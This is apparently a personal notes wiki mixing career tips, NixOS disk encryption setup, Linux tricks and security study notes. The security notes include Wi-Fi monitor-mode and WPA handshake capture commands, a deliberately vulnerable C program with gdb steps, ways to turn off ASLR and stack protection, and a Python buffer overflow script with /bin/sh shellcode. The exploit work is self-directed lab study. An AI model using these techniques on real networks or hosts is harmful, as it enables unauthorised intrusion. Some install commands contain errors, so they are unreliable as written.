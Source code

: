 = random
:stem:

== xref:avviki.adoc[avviki]

making my own antora vim wiki plugin thingy

== job salary expectations when listed in job posting

when asked these questions:

[qanda]
What are your salary expectations for this role?::
Mention the salary range in the job description.
Ask if it's still the case.

Yes, does that align with your expectations?::
Mention what you want.
If you want a higher salary, mention that a higher end aligns with your expectations.

We'd love to offer you a job. Do you accept?::
Don't answer on the spot.
Don't ask for the pay.
Don't negotiate.
First thank them for the job offer, second be grateful to join the team, third ask them for the offer letter in email so that you can review the specifications.

Last thing to do is to be grateful again.
Then push for higher end of the salary if it's not enough.

== firejail

if i want to program to use specific folder, do.

----
firejail --private=~/some_directory ...
----

== life lessons maybe?

[NOTE]
.*Here’s 32 things I’ve learned that I hope help you in your journey*:
====

. Nothing worthwhile comes easy. 
. Work on a passion project, even just 30 minutes a day. It compounds.
. Become a lifelong learner (best tip).
. Working from 7am to 7pm isn’t productivity. It’s guilt.
. To be really successful become useful.
. Like houses in need of repair, problems usually don’t fix themselves.
. Don’t say something to yourself that you wouldn’t say to someone else. 
. Try to spend 12 minutes a day in quiet reflection, meditation, or prayer.
. Try new things. If it doesn’t work out, stop. At least you tried.
. You can’t control everything. Focus on what you can control.
. If you think you have it tough, look around.
. It's only over when you say it is.
. ...
====

Source: link:https://www.reddit.com/r/lifehacks/comments/1bgw44k/i_turned_72_today/[Reddit]


== linux maybe


`ip a show <interface>`

running root on gui in terminal: `sudo -E <command>` ref: https://wiki.archlinux.org/title/Running_GUI_applications_as_root#Wayland

udev rule

checking if wifi card supports monitor mode:
1. put into monitor mode
2. check if there's monitor mode
3. test packet injection with `aireplay-ng --test <interface>`


starting monitor mode: `airmon-ng start <interface>`
checking if monitor mode: `iwconfig` and find the `Mode:Monitor`
use `airodump-ng <interface>`  to see all the access points

make sure to `airmon-ng check kill`

### for sniffing the network

`airodump-ng --bssid <ap_bssid> --essid <ap_name> -c <channel> -w <filename> <interface>`

> [!NOTE]- This is wrong
> if your card can't capture the data, it will only show `clear-to-send` and `request-to-send` and no `Acknowledgement`. a successful sniff must have both `Acknowledgement` and `WPA Handshake` in [[airodump-ng]]
it needs CTS -> RTS -> Qos Data

targeting a specific network requires specifying the [[BSSID]]. 


or an alternative to that above would be:
ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig

```
wlan.fc.type_subtype in {0x00}
```

# iw

iw dev:: show which interface it is related to ``phy``

## find if it supports AP

.$ iw list
----
Supported interface modes:
	 * IBSS
	 * managed
	 * **AP**
	 * AP/VLAN
	 * WDS
	 * monitor
	 * mesh point
----


#python 

[python]
----
import sys

args = sys.argv
----

*sys.args* will always contain the filename

better use `argparse` for parameters with arguments

[python]
----
import argparse

parser = argparse.ArgumentParser(description="description here")
parser.add_argument("--name", help="set name")
args = parser.parse_args()
----

to use flags, add ``action="store_true"`` inside the argument. default values can also be set with ``default="value"``.

``metavar`` for changing help argument string



== Fix windows 10 boot

select the disk with ``diskpart`` then select the system volume. if gpt use ``bcdboot``. if mbr, use ``bootrec``. assign a drive letter.
bcdboot: ``bcdboot C:\windows /s V: /f UEFI``

== xref:stack-smashing.adoc[Stack Smashing]

[c]
----
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main() {
    char u[16];
    volatile int p = 0;
    scanf("%s", u);
    if (p != 0) {
        printf("How u do dat?\n");
    }
    else {
        printf("Nope.\n");
    }
    return 0;
}
----

compile: ``gcc vuln.c -o vuln -fno-stack-protector -ggdb``

. gdb vuln
. disas main (not needed)
. list 11
. break 10
. break 11
. r <<< $(python -c "print('A'*40)") this should return a segmentation fault
note the memory address: 

----
Program received signal SIGSEGV, Segmentation fault.
0x00005555555551a0 in main () at vuln.c:17
----
. confirm with `info reg` or `p/x $rip`



remove a breakpoint: ``del #``

* x/16x buf
* i f

== Run Obsidian in xref:wayland.adoc[Wayland]

----
OBSIDIAN_USE_WAYLAND=11 obsidan -enable-features=UseOzonePlatform -ozone-platform=wayland
----

== aslr


disabling: ``setarch $(uname -m) -R <ELF executable>``
permanently: ``echo 0 | sudo tee /proc/sys/kernel/randomize_va_space``

== more python stack smashing

[python]
----

import sys

OFFSET      = b"\x41"
EIP         = b"\x38\xcd\xff\xff" # PLEASE FIND THE CORRECT EIP FOR EVERY COMPUTER MEMORY ADDRESS. DO NOT USE THIS ADDRESS SINCE IT'S DIFFERENT FOR ALL COMPUTERS
NOP         = b"\x90" 

SHELLCODE   = b"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
SHELLCODE2  = b"\x31\xc0\x40\x89\xc3\xcd\x80"

exploit     = SHELLCODE2 + NOP*5 + EIP
sys.stdout.buffer.write(exploit)
----

== updating

``nixos-rebuild switch --upgrade``

=== partitioning the drive

1. Set partition table to GPT

```sh
#parted /dev/<device> -- mklabel gpt
parted /dev/vda -- mklabel gpt
```

2. Create boot partition

```sh
#parted /dev/<device> -- mkpart ESP fat32 1MiB 512MiB
parted /dev/vda -- mkpart ESP fat32 1MiB 512MiB
```

3. Set ESP boot flag

```sh
#parted /dev/<device> -- set <partition number> <partition label> on
parted /dev/vda -- set 1 ESP on
```

4. Create root and home partition

```sh
#parted /dev/<device> -- mkpart root <file system> <start> end>
parted /dev/vda -- mkpart root btrfs 512MiB 32.5MiB
parted /dev/vda -- mkpart home btrfs 32.5GiB 100%
```

simpler version

```sh
parted /dev/vda
mklabel gpt
mkpart ESP fat32 1MiB 512MiB
set 1 ESP on
mkpart root btrfs 512MiB 32.5GiB
mkpart home btrfs 32.5GiB 100%
```

`print` to verify

=== formatting with luks encryption

1. format boot partition (no encryption)

```sh
mkfs.fat -F 32 -n boot /dev/vda1
```

2. format root and home partitions with luks

```sh
#cryptsetup --verify-passphrase -v luksFormat <partition>
cryptsetup --verify-passphrase -v luksFormat /dev/vda2
cryptsetup --verify-passphrase -v luksFormat /dev/vda3
```

> [!NOTE]
> This does not include a label to the luks container. Use `cryptsetup config <luks container> --label <label>` to add a label.

3. mount encrypted partitions

```sh
#cryptsetup open <partition> <label>
cryptsetup open /dev/vda2 root_luks
cryptsetup open /dev/vda2 home_luks
```

4. partition home and root

```sh
#mkfs.btrfs -L <label> <luks dev mapper name>
mkfs.btrfs -L nixos /dev/mapper/root_luks
mkfs.btrfs -L home /dev/mapper/home_luks
```
i use `root` and `home` to have separate partition labels. this causes an issue in booting if labels are the same. the labels here might be used by `/dev/disk/by-label/`.

5. mounting root and home partitions

```sh
#mount -t <file system> /dev/mapper/<partition> </mnt locations>
mount -t btrfs /dev/mapper/root_luks /mnt
mount -t btrfs /dev/mapper/home_luks /mnt/home
```

do `mkdir /mnt/home` if directory does not exist

6. creating subvolumes

```sh
btrfs subvolume create /mnt/root
btrfs subvolume create /mnt/nix
btrfs subvolume create /mnt/persist
btrfs subvolume create /mnt/log
btrfs subvolume snapshot -r /mnt/root /mnt/root-blank
```

7. unmount

```sh
umount /mnt/home
umount /mnt
```

8. mount root and home, and others

```sh
mount -o subvol=root,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt
```

9. create directories for mount point

```sh
mkdir /mnt/home
mkdir /mnt/nix
mkdir /mnt/persist
mkdir -p /mnt/var/log
```

10. mount home and subvolumes

```sh
mount -o compress=zstd,relatime,ssd,space_cache=v2 /dev/mapper/home_luks /mnt/home
mount -o subvol=nix,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/nix
mount -o subvol=persist,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/persist
mount -o subvol=log,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/var/log
```

11. mount boot

```sh
mkdir /mnt/boot
#mount /dev/<partition> /mnt/boot
mount /dev/vda1 /mnt/boot
```

12. generate nixos-config

```sh
nixos-generate-config --root /mnt
```

== Section 19 of RA 11055


====
Any person or entity who, without just and sufficient cause, shall refuse to accept, acknowledge and/or recognize the PhilID or PSN, subject to authentication, as the only official identification of the holder/possessor thereof shall be fined in the amount of Five hundred thousand pesos (P500,000.00).
====



== idk

.$ cat /proc/mounts
[sh]
----
/dev/nvme0n1p2 / btrfs rw,noatime,compress=zstd:3,ssd,discard=async,space_cache=v2,subvolid=265,subvol=/@ 0 0

/dev/nvme1n1p1 /birb btrfs rw,relatime,compress=zstd:3,ssd,discard=async,space_cache=v2,subvolid=5,subvol=/ 0 0

/dev/nvme0n1p3 /home btrfs rw,noatime,compress=zstd:3,ssd,discard=async,space_cache=v2,subvolid=256,subvol=/@home 0 0

/dev/nvme0n1p1 /boot/efi vfat rw,relatime,fmask=0022,dmask=0022,codepage=437,iocharset=ascii,shortname=mixed,utf8,errors=remount-ro 0 0
----


* `-fno-stack-protector` disables stack smashing protection.
* `-m32` generate 32-bit architecture code.
* `-mpreferred-stack-boundary=2` stack boundary should be aligned in 4 bytes.
* `-ggdb` generate debug information compatible with the GDB debugger.
* `-fno-pie` disables position-independent executable (PIE) generation which randomizes the base address of the executable.
* `-z execstack` sets the stack as executable.



stopping monitor mode 
1. `ip link set <interface> down`
2. `iwconfig <interface> mode managed` or `iw dev <interface> set type managed`
3. `ip link set <interface> up`
4. restart networking services

check ***iwconfig***. 



```sh
alias memrss 'ps -eo comm,pmem,rss,etime --sort -rss | numfmt --header --from-unit=1024 --to=iec --field 3 | column -t | head -n20'
```



#hyprland #xdg-desktop-portal
screenshare not working - restart xdg-desktop-portal-hyprland
```sh
systemctl restart --user xdg-desktop-portal-hyprland.service
```

== python trace memory usage


[python]
----
import tracemalloc
tracemalloc.start()
# some function here or __main__()
print(tracemalloc.get_traced_memory())
tracemalloc.stop()
----

== intersting


#zram
using zram-generator
use only 50% of max ram
`/etc/systemd/zram-generator.conf`

#ssh 
when switching ssh keys
```sh
eval "$(ssh-agent -s)"
ssh-add <rsa>
```
example: `eval "$(ssh-agent -s)" && ssh-add ~/.ssh/homeserver`



https://github.com/v1s1t0r1sh3r3/airgeddon/wiki/Cards%20and%20Chipsets #airgeddon


checking for Virtual Interface capability:

```
iw list | grep "Supported interface modes" -A 8
```

*note: run with sudo if not working*

should output `AP/VLAN` (not just `AP`) for full support of [[Virtual Interface|VIF]]


avoid these chipsets:
- rtl8814au
- rtl8812au
- rtl8821/11au

https://github.com/morrownr/USB-WiFi/issues/314


list wifi devices: `nmcli device`


---

#nixos-installation 

1. connect to wifi using **wpa_cli**
2. partition the disk with **parted** (esp, root, home). make sure to use **BTRFS**
3. use **Full-Disk Encryption**
4. create subvolumes (nix, persist, log)
5. mount them



1. malware analysis lab
2. ids/zeek network monitoring
	1. snort
	2. suricata
3. metasploitable
4. wazuh to soar implementation
	1. setup wazuh, at least one agent
	2. integrate shuffle platform with automation




== common security frameworks:

- SOC 2
- ISO 270012
- NIST CSF2
- HIPAA2
- PCI DSS2
- HITRUST2
- COBIT2
- NIST 800-53
- NIST 800-171




== another random


-  preimage attacks
-  hash collision

security keys for security control
- https://pauljerimy.com/security-certification-roadmap/
- https://training.dfirdiva.com/listing-category/it-cybersecurity
- https://www.cyberdegrees.org/resources/free-online-courses/#faq


---





== Archiving and compression

=== tar

Flags

J:: Uses `xz`
z:: Uses `gzip`
v:: verbose
c:: compress
x:: extract

== sqlite3

=== exporting from db to csv

----
.mode csv
.header on
.output output.csv
SELECT * FROM table;
.quit
----

== papers

* http://eprints.lse.ac.uk/36674/1/LSEH_WP22.pdf[Using a Vector Autoregression Framework to measure the quality of English NHS hospitals]
* https://www.researchgate.net/publication/357786404_A_LITERATURE_REVIEW_ON_TIME_SERIES_FORECASTING_METHODS[A LITERATURE REVIEW ON TIME SERIES FORECASTING METHODS]

== APTs

=== APT1

* PLA Unit 61398
* date: 2006 - 2013
* longest time period access to a network: 1764 days (4 years 10 months)
** average: 356 days
* Military Unit Cover Designator (MUCDs)
* webc2-table malware family
* headquarter is located in Pudong New Area, Shanghai
* has at least hundreds to thousands of personnel
